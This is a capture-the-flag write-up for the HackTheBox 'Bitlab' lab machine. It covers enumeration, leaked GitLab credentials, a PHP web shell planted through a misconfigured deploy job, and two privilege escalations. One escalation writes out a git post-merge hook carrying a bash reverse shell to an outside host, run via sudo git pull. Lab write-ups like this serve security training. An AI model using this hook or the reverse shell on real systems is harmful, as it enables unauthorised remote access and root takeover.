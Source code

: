 ```yaml
---
title: Bitlab
author:
  name: kill5witch
  link: https://github.com/an9k0r
date: 2021-12-25 11:33:00 +0200
categories: [HackTheBox, Linux]
tags: [Linux, C, JavaScript, PHP, API Fuzzing, Arbitrary File Upload, File Misconfiguration]
math: true
mermaid: true
image:
  src: /assets/images/2022-03-07-19-34-43.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Bitlab - Medium Box running on Linux. GitLab // x32dbg // Debugging / PostGre // git pull // JavaScript**
# ENUMERATION

## NMAP

So,... let's first start NMAP:

```
Nmap scan report for 10.10.10.114
Host is up (0.087s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
|_http-title: GitLab is not responding (502)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 80 is only interesting port to continue enumerating

## GOBUSTER

```
luka@kali:~/htb/bitlab$ gobuster dir -u http://10.10.10.114 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50 -k -s 200,204,301,307,401,403
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.114
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
===============================================================
/help (Status: 301)
/profile (Status: 301)
/search (Status: 200)
/public (Status: 200)
/root (Status: 200)
Progress: 2541 / 87
```

## Checking Webserver manually

So there to be a bookmark html file that seems like a leak

![](/assets/images/image (170).png)

# EXPLOITATION

## JS Deobfuscation

"Gitlab Login" seems to store credentials for Gitlab but the script is obfuscation. Just throwing it into [jsnice.org](http://jsnice.org) (can be done manually as well!) reveals the password.

![](/assets/images/image (171).png)

Credentials work for Gitlab on Port 80

## GitLab Missconfiguration

After checking both repositories on GitLab after logging in it seems that "Deployer" repository does few things including sudo git pull.

![](/assets/images/image (172).png)

Some IFs have to be met though so let's do that.

Let's go to Profile repo and create new master branch.

![](/assets/images/image (173).png)

Add new File to it

![](/assets/images/image (174).png)

Put code inside (PHP)

![](/assets/images/image (175).png)

Create merge request next, request merge and merge without making any changes.

If everything has been done correctly you should see something like this:

![](/assets/images/image (176).png)

And file is also in its place

![](/assets/images/image (177).png)

.... and remote execution works

![](/assets/images/image (178).png)

Swap that with reverse shell:

![](/assets/images/image (179).png)

And shell was popped:

![](/assets/images/image (180).png)

There are two privilege escalation possibilities. One is exploiting that sudo git pull, other one is finishing code found in snippets in GitLab to get clave users credentials.&#x20;

# PRIVILEGE ESCALATION

## PrivEsc#1: Git pull may be run as sudo

Let's first start with "sudo git pull"

I used post-merge hook since that was only one working - pre-commit didn't work. I didn't dig deeper to see if pre-commit gets executed or not though.

NOTE: since we need to copy whole repository to somewhere where we have write access to, we need to make a change in the repository otherwise pull wont work. So just create a single file like below:

![](/assets/images/image (181).png)

Copy the repostiory to /tmp and create a weaponized post-merge hook.

```
cp -r /var/www/html/profile/ /tmp/
		
echo '#!/bin/bash' > /tmp/profile/.git/hooks/post-merge
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.10/4243 0>&1"' >> /tmp/profile/.git/hooks/post-merge
chmod +x /tmp/profile/.git/hooks/post-merge
		
sudo /usr/bin/git pull
```

Root:

![](/assets/images/image (182).png)

## PrivEsc#2: PostGRE

Snippet can be found in GitLab in snippets menu.

![](/assets/images/image (183).png)

Code is just missing a line which prints the results.

![](/assets/images/image (184).png)

Password with username was retrieved

![](/assets/images/image (185).png)

After SSHing onto the box with clave, there is file called "RemoteConnection.exe" in the clave's home directory. I pulled that file to windows and used it with x32dbg. (didn't work ghidra, or dnspy 64 bit!)

## PrivEsc#2: x32dbg (retrieving password from the stack)

File will put root's password onto the stack at some point.

![](/assets/images/image (186).png)

It works with SSH, i didn't try to run the file directly :)
